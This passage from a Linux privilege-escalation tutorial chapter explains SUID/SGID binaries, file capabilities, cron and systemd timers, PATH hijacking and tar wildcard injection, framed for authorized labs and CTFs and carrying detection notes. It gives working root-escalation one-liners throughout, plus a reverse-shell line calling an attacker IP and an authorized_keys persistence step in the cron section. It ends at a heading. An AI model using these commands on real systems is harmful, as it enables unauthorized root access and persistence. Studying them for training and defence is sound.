




This is Chapter 3 of the Privilege Escalation notebook. The previous chapter was about *finding* the path up — running LinPEAS, reading its output, and backing it with manual enumeration until you have a ranked list of candidate weaknesses. This chapter is about *taking* the path: converting each of those findings into a real root shell, safely and repeatably.

Enumeration tells you "this `find` binary has the SUID bit set" or "root runs this script every minute" or "your user can run `tar` as root with no password." That is a lead, not a win. The gap between the two is where most beginners stall — they see the finding, don't know the exact primitive it unlocks, and move on. By the end of this chapter you'll know, for every common Linux local-root primitive, exactly what the vulnerable condition looks like, exactly which commands escalate it, how to confirm you actually got root, and how a defender would catch you doing it.

Everything here assumes an explicit, written, scoped engagement or lab hardware you own. A local privilege-escalation exploit is still unauthorised access to a protected resource if you don't have permission — the fact that you already have a shell does not make root fair game. Run these techniques on your own VMs, on HackTheBox/TryHackMe boxes, or on systems named in a signed rules-of-engagement document, and nowhere else.

---

## Part 1: What "Escalation" Actually Means on Linux

Privilege escalation is the act of moving from the privileges you have to privileges you want — almost always from an unprivileged user (`www-data`, `mysql`, `svc-backup`, a low-priv named user) to `root` (UID 0), and occasionally *lateral* movement to another user whose files or sudo rights you need on the way.

The reason Linux privesc is a large topic rather than a single trick is that root can be reached through many independent doors, and any one misconfiguration is enough. You do not need to defeat the whole security model; you need one binary that trusts you too much, one script root runs that you can edit, one capability that was granted too broadly. This is why the enumeration chapter mattered: escalation is a *lookup* from "what did I find" to "which door does that open."

Every technique in this chapter reduces to one of a small number of underlying mechanisms:

- **You get root to run code you control.** Cron jobs, systemd timers, writable service files, PATH hijacks, wildcard injection, LD_PRELOAD — all of these end with a root process executing a file or command you wrote.
- **You run a binary that already has root power and abuse its features.** SUID binaries and file capabilities give a normal user's process elevated privilege; GTFOBins is the catalogue of which binaries can be talked into spawning a shell or reading/writing arbitrary files.
- **You are explicitly allowed to run something as root and you widen it.** sudo rules, especially `NOPASSWD` and `env_keep`, hand you root for one command; the game is escaping that command into a shell.
- **You edit an authentication-critical file directly.** Writable `/etc/passwd`, `/etc/shadow`, `/etc/sudoers`, or a writable root-owned SSH `authorized_keys` are instant wins.
- **You exploit a kernel or system-service bug.** Dirty COW, Dirty Pipe, OverlayFS, pwnkit, and D-Bus/polkit flaws bypass the file-permission model entirely by exploiting code that runs as root.

Keep this five-way taxonomy in mind. When you land a new finding, ask which category it belongs to, and the exploitation path follows.



**A word on stability before we exploit anything.** A privesc that crashes the box, leaves a world-writable SUID shell lying around, or corrupts `/etc/passwd` is a bad privesc even if it "worked." Throughout this chapter each technique carries a note on how invasive it is and how to clean up. On a real engagement, prefer the least destructive win that gets you root, document exactly what you changed, and revert it during teardown.

---

## Part 2: The `id` Mental Model — UIDs, GIDs, and the SUID Bit

Before exploiting SUID you must understand what actually happens when a process runs. Every Linux process carries several user IDs, and privilege escalation is fundamentally about manipulating them.

A process has, for the user side (there is a parallel set for groups):

- **Real UID (`ruid`)** — who launched the process. If you (`uid=1000`) run a program, its real UID is 1000.
- **Effective UID (`euid`)** — the UID used for *permission checks*. When you open a file, the kernel checks your effective UID against the file's owner/permissions. This is the one that matters for "can I do this."
- **Saved UID (`suid`)** — a stash the process can swap back to, used so a privileged program can temporarily drop and re-raise privilege.
- **Filesystem UID (`fsuid`)** — Linux-specific, normally tracks euid; historically separate for NFS reasons.

You can see them:

```bash
$ id
uid=1000(alice) gid=1000(alice) groups=1000(alice),27(sudo)

# Effective vs real become visible when running a SUID binary:
$ id -u        # real UID
1000
$ id -u -r     # explicitly real
1000
```

The **SUID bit** (Set-User-ID on execution) is a permission bit on an executable file. When a file with the SUID bit set is executed, the kernel sets the new process's **effective UID to the file's owner**, not to the calling user. So a program owned by root with the SUID bit set runs with `euid=0` — full root permission for its file operations — even when launched by `alice`.

You recognise it in `ls -l` as an `s` where the owner's execute `x` would be:

```bash
$ ls -l /usr/bin/passwd
-rwsr-xr-x 1 root root 68208 ... /usr/bin/passwd
   ^
   s here = SUID bit, owner is root -> runs as root
```

`passwd` legitimately needs this: a normal user must be able to change their password, which means writing to `/etc/shadow`, which is root-only. SUID is the mechanism that lets that happen safely — *if the program is careful*. The entire SUID attack surface is programs that are **not** careful: they let you read a file, write a file, or spawn a shell while running as root.

There is a sibling bit, **SGID** (Set-Group-ID), shown as `s` in the group execute position, which sets the effective *group* instead. SGID is exploited the same way but yields the file's group (often useful for reading group-restricted files like `/etc/shadow` when it's group `shadow`, or `disk` group for raw device access).

| Bit | `ls -l` symbol | Numeric | Effect on execution |
|-----|----------------|---------|---------------------|
| SUID | `-rws------` | `4000` | euid becomes file owner |
| SGID | `-rwxr-s---` | `2000` | egid becomes file group |
| Sticky | `-rwxrwxrwt` | `1000` | on dirs: only owner can delete their files (not a privesc primitive) |
| SUID+SGID | `-rwsr-sr-x` | `6755` | both |

A capital `S`/`T` (instead of `s`/`t`) means the bit is set but the execute bit is *not* — usually a misconfiguration and not directly exploitable via execution.

**Red team usage:** the first thing to do after landing a shell is enumerate SUID/SGID binaries; the first thing to do after *that* is cross-reference each unusual one against GTFOBins. **Blue team usage:** a baseline of every SUID/SGID binary on a host, compared on a schedule, catches both attacker-planted SUID shells and packages that ship dangerous bits.

---

## Part 3: SUID/SGID Exploitation and the GTFOBins Mindset

### 3.1 Finding SUID/SGID binaries

The canonical enumeration command (from the previous chapter, repeated here because it's the entry point to exploitation):

```bash
# All SUID binaries, suppressing permission-denied noise
find / -perm -4000 -type f 2>/dev/null

# SUID *or* SGID, with details, more useful in practice
find / -perm -u=s -o -perm -g=s -type f 2>/dev/null -exec ls -la {} \;

# The mask form: -6000 catches both set-user and set-group id
find / -perm -6000 -type f 2>/dev/null
```

Flag notes so you actually understand this rather than copy it:

- `/` — start at filesystem root, search everywhere.
- `-perm -4000` — the leading `-` means "at least these bits set" (a mask), so this matches any file with the SUID bit regardless of the other permission bits. Without the `-`, it would mean "exactly these bits," which almost never matches.
- `-type f` — regular files only, skip directories/symlinks.
- `2>/dev/null` — discard the flood of `Permission denied` errors on directories you can't read.
- `-exec ls -la {} \;` — run `ls -la` on each hit; `{}` is the found path, `\;` terminates the `-exec`.

You'll get a list that includes many **legitimate** SUID binaries (`sudo`, `su`, `passwd`, `mount`, `umount`, `ping`, `pkexec`, `newgrp`, `chsh`, `chfn`, `gpasswd`, `fusermount`). The skill is spotting the **abnormal** one: a shell (`bash`, `dash`), an interpreter (`python`, `perl`), a text/file tool (`find`, `vim`, `nano`, `cp`, `tar`, `nmap`, `awk`), or a custom binary in `/opt` or a home directory. Those are your leads.

### 3.2 GTFOBins — what it is and how to use it

**GTFOBins** (`https://gtfobins.github.io`) is a curated catalogue of Unix binaries that can be abused to break out of restricted contexts. For each binary it lists the functions it can perform — `Shell`, `Command`, `File read`, `File write`, `SUID`, `Sudo`, `Capabilities`, `Limited SUID` — and the exact command to do it. It is *the* reference for local privesc via trusted binaries, and internalising its patterns is more valuable than memorising individual commands.

The mental model: a binary is dangerous when it can do any of the following **while it keeps root's effective UID**:

- **Spawn a shell** (`bash`, `sh`, `vim :!sh`, `find -exec`, `awk 'BEGIN{system()}'`).
- **Run an arbitrary command** (anything that shells out).
- **Read any file** (dump `/etc/shadow`, root's SSH key).
- **Write any file** (append to `/etc/passwd`, drop an `authorized_keys`).

If a SUID binary can do the first two, you get an interactive root shell directly. If it can only read/write, you turn that into root via a file-based technique (Part 8).

Critically, many programs that hold onto privilege will only run with the *effective* UID unless you make them **set the real UID to 0** too, because sub-shells they spawn often drop privileges back to the real UID. That's why GTFOBins SUID entries frequently include a `-p` flag or an explicit `setuid`. For example, plain `bash` drops privileges; `bash -p` preserves them:

```bash
# If /bin/bash itself is SUID root (a classic planted backdoor / CTF setup):
$ ls -l /bin/bash
-rwsr-xr-x 1 root root ... /bin/bash
$ /bin/bash -p          # -p = privileged mode, do NOT reset euid to ruid
bash-5.1# id
uid=1000(alice) euid=0(root) gid=1000(alice) egid=0(root) groups=...
bash-5.1# whoami
root
```

The `-p` is the whole trick: without it, bash detects euid != ruid and helpfully resets euid to your real UID, undoing the SUID. With it, you keep root.

### 3.3 Worked SUID exploits by binary

Here are the most common SUID abuses you'll actually meet, with the exact vulnerable condition and exploit. Assume each binary shows a root-owned SUID bit in `find` output.

**`find`** — has a built-in `-exec`, so it's a shell factory:

```bash
$ ls -l /usr/bin/find
-rwsr-xr-x 1 root root ... /usr/bin/find
$ find . -maxdepth 0 -exec /bin/sh -p \;
# id
uid=1000(alice) euid=0(root) groups=...
```

`-exec ... \;` runs the command; because `find` runs as root and we ask for a privileged shell, we land as root. The `/bin/sh -p` mirrors the bash `-p` behaviour.

**`vim` / `vi` / `rvim`** — text editors that can shell out:

```bash
$ vim -c ':py3 import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
# or the simpler in-editor route:
$ vim
# then type:  :!/bin/sh -p        (if the build allows shell escape)
# or:         :set shell=/bin/sh | :shell
```

**`python` / `perl` / `ruby` / `lua`** — interpreters with `os.execl`/`setuid`:

```bash
# python: must call setuid(0) explicitly because it drops the real UID
$ /usr/bin/python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
# perl:
$ /usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash";'
```

Here `os.setuid(0)` sets the *real* UID to 0 (possible because euid is already 0), so the spawned bash sees ruid=euid=0 and stays root.

**`awk` / `gawk`** — `system()` from a BEGIN block:

```bash
$ awk 'BEGIN {system("/bin/sh -p")}'
```

**`nmap`** (old versions with interactive mode) — `--interactive` then `!sh`:

```bash
$ nmap --interactive
nmap> !sh
sh-5.1# id
uid=1000 euid=0
```

**`env`** — runs a command with a modified environment, but it *runs a command*:

```bash
$ env /bin/sh -p
```

**`cp`, `tar`, `dd`, `nano`, `tee`, `vim`** without a shell escape become **file read/write** primitives — covered in Part 8 where we convert them into root.

| SUID binary | Primitive | One-liner (binary already SUID root) |
|-------------|-----------|--------------------------------------|
| `bash` | Shell | `bash -p` |
| `find` | Shell | `find . -exec /bin/sh -p \; -quit` |
| `vim`/`vi` | Shell | `vim -c ':!/bin/sh -p'` |
| `python3` | Shell | `python3 -c 'import os;os.setuid(0);os.system("/bin/sh")'` |
| `perl` | Shell | `perl -e 'POSIX::setuid(0);exec "/bin/sh";'` |
| `awk` | Shell | `awk 'BEGIN{system("/bin/sh -p")}'` |
| `env` | Shell | `env /bin/sh -p` |
| `nmap` (old) | Shell | `nmap --interactive` → `!sh` |
| `cp` | File write | overwrite `/etc/passwd` or a root cron |
| `tar` | Command | `tar cf /dev/null x --checkpoint=1 --checkpoint-action=exec=/bin/sh` |
| `dd` | File write | write bytes to any root-owned file |
| `tee` | File write | append to `/etc/passwd` via pipe |
| `less`/`more` | Shell | `!/bin/sh` from the pager prompt |

**CTF note:** SUID `bash`, `find`, and `python` are extremely common entry points on beginner TryHackMe/HackTheBox boxes — if a `find / -perm -4000` turns up any interpreter or shell-capable binary, GTFOBins almost certainly has a one-liner. **Bug bounty note:** SUID abuse is generally out of scope for web bug bounties (it needs a shell first), but it's squarely in scope for VDPs that cover managed servers and for cloud pentests where you've popped a container/host.

**Detection angle (woven, expanded in Part 14):** unexpected `execve` of `/bin/sh` with euid=0 whose parent is a normally-benign binary (`find`, `awk`, `vim`) is a high-signal detection. So is any change to the set of SUID files on disk.

---

## Part 4: POSIX File Capabilities

Capabilities are the "SUID, but scalpel instead of chainsaw" mechanism, and they are frequently *more* exploitable because admins grant them thinking they're safer than SUID.

### 4.1 What capabilities are

Historically a process was either UID 0 (all-powerful) or not. **POSIX capabilities** slice root's power into ~40 discrete privileges that can be granted individually. Instead of making `ping` fully SUID root just so it can open a raw socket, you grant it only `cap_net_raw`. The intent is least privilege. The attack surface is that some capabilities are *equivalent to root* if you know how to use them, and admins hand them out without realising.

Capabilities live in three sets on a file (the "file capabilities"): **Permitted**, **Inheritable**, **Effective**. For exploitation you mostly care that a capability is present and effective (`+ep`). List them:

```bash
# Scan the whole filesystem for files with capabilities
$ getcap -r / 2>/dev/null
/usr/bin/ping cap_net_raw=ep
/usr/bin/python3.8 cap_setuid=ep          # <-- game over
/usr/bin/vim cap_dac_override=ep          # <-- write any file
```

`getcap -r /` recurses from root; `=ep` means the cap is in the Effective and Permitted sets. That `python3.8 cap_setuid=ep` line is a full root path.

### 4.2 The capabilities that mean root

| Capability | What it grants | Exploitation |
|------------|----------------|--------------|
| `cap_setuid` | Call `setuid()` to any UID | `setuid(0)` then exec a shell → instant root |
| `cap_setgid` | Change GID | escalate to privileged groups (`shadow`, `disk`) |
| `cap_dac_override` | Bypass all file read/write permission checks | write `/etc/passwd`, `/etc/shadow`, sudoers |
| `cap_dac_read_search` | Bypass all read/traverse checks | read `/etc/shadow`, root SSH keys |
| `cap_sys_admin` | Huge grab-bag (mount, etc.) | many paths, often root-equivalent |
| `cap_sys_ptrace` | Attach to any process | inject into a root process |
| `cap_sys_module` | Load kernel modules | insert a malicious module → ring 0 |
| `cap_chown` | Change file ownership | chown a shell to root + SUID it |
| `cap_fowner` | Bypass ownership checks for chmod etc. | set SUID on your own binary |

### 4.3 Worked capability exploits

**`cap_setuid` on python** — the cleanest root you'll ever get:

```bash
$ getcap -r / 2>/dev/null | grep cap_setuid
/usr/bin/python3.8 cap_setuid=ep

$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@box:~# id
uid=0(root) gid=1000(alice) groups=1000(alice)
```

Note `gid` stays 1000 — capabilities gave us UID 0 but not the group; that's fine, UID 0 is root. To also fix the group, add `os.setgid(0)`.

**`cap_setuid` on perl / node / ruby:**

```bash
# perl
$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash";'
# node
$ node -e 'process.setuid(0); require("child_process").spawn("/bin/bash",{stdio:[0,1,2]})'
```

**`cap_dac_read_search` on a binary** — read any file, so dump `/etc/shadow` and crack root offline, or steal root's private key:

```bash
$ getcap -r / 2>/dev/null | grep dac_read_search
/usr/bin/tar cap_dac_read_search=ep
# tar can read files it normally couldn't; archive shadow and extract it:
$ /usr/bin/tar -cvf /tmp/s.tar /etc/shadow
$ tar -xvf /tmp/s.tar -O
root:$6$....:19000:0:99999:7:::
# crack the hash offline (see the password-attacks notebook), or:
$ /usr/bin/tar -cvf /tmp/k.tar /root/.ssh/id_rsa && tar -xf /tmp/k.tar -O
```

**`cap_dac_override` on vim/tee/dd** — write any file, so append a root user to `/etc/passwd` (Part 8):

```bash
$ getcap -r / 2>/dev/null | grep dac_override
/usr/bin/vim.basic cap_dac_override=ep
$ vim.basic /etc/passwd      # permission checks bypassed; add a UID-0 line, :wq
```

**Why capabilities are sneaky (Blue team relevance):** `find / -perm -4000` will **not** show a capability-based path — there's no SUID bit. You must run `getcap -r /` separately, and many enumeration scripts (and many defenders) forget. A capability grant is invisible to a SUID audit and survives package updates. Baselining `getcap -r /` alongside SUID inventory closes that gap.



---

## Part 5: Cron Jobs and systemd Timers

Scheduled tasks are one of the most reliable escalation classes because they hand you *root executing something on a timer* — and if you control any part of what runs, you control root.

### 5.1 The cron model

`cron` is the traditional Unix scheduler. Jobs live in several places, and you must check all of them:

```bash
$ cat /etc/crontab              # system-wide crontab, includes the user column
$ ls -la /etc/cron.d/           # drop-in job files
$ ls -la /etc/cron.{daily,hourly,weekly,monthly}/   # run-parts directories
$ crontab -l                    # current user's jobs
$ sudo crontab -l               # root's, if you can
$ cat /var/spool/cron/crontabs/* 2>/dev/null  # per-user spool (needs read)
```

`/etc/crontab` has a **user field** that plain user crontabs lack:

```
# m h dom mon dow user  command
*  *  *   *   *   root  /usr/local/bin/backup.sh
```

That line runs `backup.sh` **as root every minute**. Three things can make it exploitable:

1. **The script itself is writable by you** → edit it, put a reverse shell or SUID copy in, wait a minute.
2. **The script calls another program by relative name and cron's PATH is exploitable** (Part 6).
3. **The script uses a wildcard in a directory you can write to** (Part 7 wildcard injection).

### 5.2 Exploiting a writable cron script

The vulnerable condition — find a root cron target you can write:

```bash
$ ls -l /usr/local/bin/backup.sh
-rwxrwxrwx 1 root root 122 ... /usr/local/bin/backup.sh   # world-writable!
```

Exploit — three common payloads. Cleanest is to make a SUID copy of bash so you keep root even after the cron finishes:

```bash
# Option A: SUID bash — survives, no callback needed
$ printf '#!/bin/bash\ncp /bin/bash /tmp/rootbash && chmod 4755 /tmp/rootbash\n' > /usr/local/bin/backup.sh
# wait for the next run, then:
$ /tmp/rootbash -p
rootbash-5.1# id
uid=1000(alice) euid=0(root)

# Option B: reverse shell back to your listener
$ echo 'bash -i >& /dev/tcp/10.10.14.7/9001 0>&1' >> /usr/local/bin/backup.sh
# on attacker: nc -lvnp 9001

# Option C: add your key to root's authorized_keys
$ echo 'mkdir -p /root/.ssh; echo "ssh-ed25519 AAAA... alice@kali" >> /root/.ssh/authorized_keys' >> /usr/local/bin/backup.sh
```

**Watching for the job without root:** you often can't read root's crontab, but you *can* watch processes as they spawn using **pspy** — a userland tool that monitors process creation via `/proc` scanning and (optionally) kernel connector netlink, with no root needed. That's how you discover a cron even exists.

```bash
# Get pspy onto the box (static binary, no deps):
$ wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64 -O /tmp/pspy
$ chmod +x /tmp/pspy && /tmp/pspy -pf -i 1000
# You'll see, every minute:
2026/... CMD: UID=0  PID=4821  | /bin/bash /usr/local/bin/backup.sh
```

`-pf` prints commands and file events; `-i 1000` polls every 1000 ms. Seeing `UID=0` run a script on an interval is the signal that a root cron exists — then you check whether you can influence it.

### 5.3 systemd timers

Modern distros increasingly use **systemd timers** instead of cron. A timer unit (`.timer`) triggers a service unit (`.service`) on a schedule.

```bash
$ systemctl list-timers --all
$ cat /etc/systemd/system/backup.timer
$ cat /etc/systemd/system/backup.service
```

Exploitable when the `.service` runs as root and you can write **either** the `.service` file, the `.timer` file, or the `ExecStart=` target:

```ini
# /etc/systemd/system/backup.service  — if this file or its ExecStart is writable:
[Service]
Type=oneshot
ExecStart=/usr/local/bin/backup.sh    # <- writable target = same as cron case
```

If you can write the unit file itself:

```bash
$ echo 'ExecStart=/bin/bash -c "cp /bin/bash /tmp/rootbash; chmod 4755 /tmp/rootbash"' >> /etc/systemd/system/backup.service
$ systemctl daemon-reload   # if you can; otherwise wait for the timer to reload
```

**Blue team relevance:** file-integrity monitoring on `/etc/cron*`, `/etc/systemd/system/`, and `/usr/local/bin` catches most of this. Cron writing to `/tmp/rootbash` or spawning `/dev/tcp` reverse shells is loud in auditd. **CTF note:** "root runs a script every minute" is one of the single most common privesc patterns on TryHackMe; running pspy in the background while you enumerate is a reflex worth building.



---

## Part 6: PATH Hijacking and Relative Binary Names

This class exploits *how a program finds the commands it calls*. If a privileged program (a SUID binary, or a root cron script) invokes another program by **bare name** instead of an absolute path, the shell searches `$PATH` — and if you can influence `$PATH` or write to a directory that appears early in it, you get root to run your fake binary.

### 6.1 The mechanism

Compare:

```c
system("/bin/cat /etc/config");   // safe: absolute path, no PATH search
system("cat /etc/config");        // vulnerable: shell searches $PATH for "cat"
```

When the second form runs as root (SUID binary or root cron), you make a file named `cat` earlier in PATH:

```bash
# Suppose /opt/logcheck is SUID root and internally calls `service` by bare name.
$ mkdir -p /tmp/evil
$ printf '#!/bin/bash\ncp /bin/bash /tmp/rootbash; chmod 4755 /tmp/rootbash\n' > /tmp/evil/service
$ chmod +x /tmp/evil/service
$ export PATH=/tmp/evil:$PATH     # our dir first, so our fake "service" wins
$ /opt/logcheck                   # runs as root, calls "service" -> our script
$ /tmp/rootbash -p
rootbash-5.1# id
uid=0(root) ...
```

The key is that the SUID binary inherits *your* `$PATH` (unless it hardened itself), so exporting a malicious PATH before running it redirects its internal command lookups to your directory.

### 6.2 Finding the vulnerable call

You often need to see *which* bare command a binary invokes. `strings` and `ltrace` reveal it:

```bash
$ strings /opt/logcheck | grep -iE 'system|exec|service|cat|ls|cp'
system
service --status-all
$ ltrace /opt/logcheck 2>&1 | grep -i system   # shows system("service ...") at runtime
```

`strings` dumps printable strings from the binary; seeing a bare command name next to `system` is the tell. `ltrace` traces library calls and will literally show `system("service --status-all")` — confirming the bare-name call.

### 6.3 Cron + PATH is even easier

Cron runs with a *minimal, predictable* PATH (often `/usr/bin:/bin`), set in `/etc/crontab`:

```
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
```

If a root cron script calls a program by bare name **and** any writable directory sits earlier in that PATH — or you can edit the `PATH=` line in a writable crontab — you win the same way. A frequent real case: a script does `tar ... ` or `backup` and one of the early PATH dirs (e.g. a project-owned `/usr/local/bin`) is group-writable.

| Condition | Why exploitable | Exploit |
|-----------|-----------------|---------|
| SUID binary calls `cmd` by bare name | inherits your `$PATH` | put fake `cmd` first in PATH |
| Root cron calls `cmd` by bare name + writable early PATH dir | cron's PATH is fixed but a dir is writable | drop fake `cmd` there |
| Writable `/etc/crontab` PATH line | you set the search order | prepend your dir |
| `sudo` rule without `secure_path` covering a script | script does bare-name call | env PATH abuse (Part 9) |

**Defense (woven):** privileged programs should call helpers by absolute path and set their own `PATH` explicitly; sudo's `secure_path` in `/etc/sudoers` sanitises PATH for sudo'd commands and defeats this for the sudo case.

---

## Part 7: Wildcard Injection (the `tar`/`chown`/`rsync` trick)

A close cousin of PATH abuse. When a root script uses a **shell wildcard** (`*`) over files in a directory you can write to, you can plant files whose *names* are interpreted as command-line options — because the shell expands `*` into filenames and passes them as arguments, and many tools have flags that execute commands.

### 7.1 The classic: `tar` with `--checkpoint-action`

Suppose root cron runs, inside a directory you can write:

```bash
cd /opt/backups && tar czf /root/backup.tar.gz *
```

The `*` expands to every filename in `/opt/backups`. `tar` has `--checkpoint=N` and `--checkpoint-action=exec=CMD`, which run a command at each checkpoint. If you create files *named like those flags*, the shell hands them to `tar` as options:

```bash
$ cd /opt/backups
$ echo 'cp /bin/bash /tmp/rootbash; chmod 4755 /tmp/rootbash' > runme.sh
$ chmod +x runme.sh
$ touch './--checkpoint=1'
$ touch './--checkpoint-action=exec=sh runme.sh'
# When root's cron runs `tar czf ... *`, the glob becomes:
#   tar czf ... --checkpoint=1 --checkpoint-action=exec=sh runme.sh runme.sh
# tar executes runme.sh as root.
$ /tmp/rootbash -p        # after the cron fires
```

The `./` prefix and quoting ensure the filenames start with `--` so `tar` treats them as options, not files.

### 7.2 Other wildcard-injectable tools

| Tool (root runs `tool *`) | Injectable flag | Planted filename |
|---------------------------|-----------------|------------------|
| `tar` | `--checkpoint-action=exec=` | `--checkpoint=1`, `--checkpoint-action=exec=sh x.sh` |
| `chown` / `chmod` | `--reference=FILE` | `--reference=ownedfile` (change target's owner to match a file you control) |
| `rsync` | `-e` / `--rsh` | `-e sh x.sh` style |
| `7z` / `zip` | `-i@`/list files | leak file contents via error messages |
| `scp` (as root, remote) | proxy/command opts | command execution |

`chown` wildcard injection is subtle but powerful: `chown -R user *` with a planted symlink and `--reference` can flip ownership of arbitrary files to you.

**Detection (woven):** wildcard-injection artefacts are odd filenames beginning with `--` inside working directories, and `tar`/`chown` spawning shells. **Best practice / defense:** scripts should use `./` -prefixed globs, `--` to end option parsing (`tar czf out.tar -- *`), or explicit `find ... -exec`. **CTF note:** wildcard injection is a staple of intermediate boxes; whenever you see a root cron doing `tar`, `chown`, or `rsync` over a writable dir with `*`, this is the intended path.

---

## Part 8: Turning File Read/Write Into Root

Many primitives — a SUID `cp`/`dd`/`tee`, a `cap_dac_override` editor, a writable file owned by root — give you the ability to **read or write one arbitrary file as root**, but not a shell directly. This part is the conversion table from that primitive to root.

### 8.1 Writable /etc/passwd → instant root

